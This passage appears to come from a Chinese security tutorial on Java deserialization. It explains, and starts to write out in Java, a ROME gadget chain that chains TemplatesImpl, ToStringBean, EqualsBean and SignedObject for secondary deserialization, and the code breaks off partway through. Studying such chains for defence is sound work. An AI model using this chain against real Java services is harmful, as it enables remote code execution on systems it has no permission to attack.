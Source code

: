 [![](assets/1701071934-0c4d423b3a1a308d39bf51b050895d6f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124223624-d82d32a8-8ad6-1.png)  
构造 payload 使 value 为 equalsbean，m.get(key) 为恶意对象  
demo：

```plain
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;

import javax.xml.transform.Templates;
import java.io.IOException;
import java.io.Serializable;
import java.math.BigInteger;
import java.security.*;
import java.security.interfaces.DSAParams;
import java.security.interfaces.DSAPrivateKey;
import java.util.Base64;
import java.util.HashMap;
import java.util.Hashtable;

public class rome6 {
    public static void main(String[] args) throws Exception {
        TemplatesImpl template = (TemplatesImpl) util.getTeml();
        ToStringBean toStringBean = new ToStringBean(Templates.class, "template");
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class, toStringBean);
        HashMap hashmap = new HashMap();
        hashmap.put(equalsBean, "1");
        util.setFieldValue(toStringBean,"_obj",template);
        SignedObject s = makeSignedObject(hashmap);
        SignedObject s2 = makeSignedObject(null);

        // 二次反序列化
        EqualsBean equalsBean2 = new EqualsBean(String.class, "1");
        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
```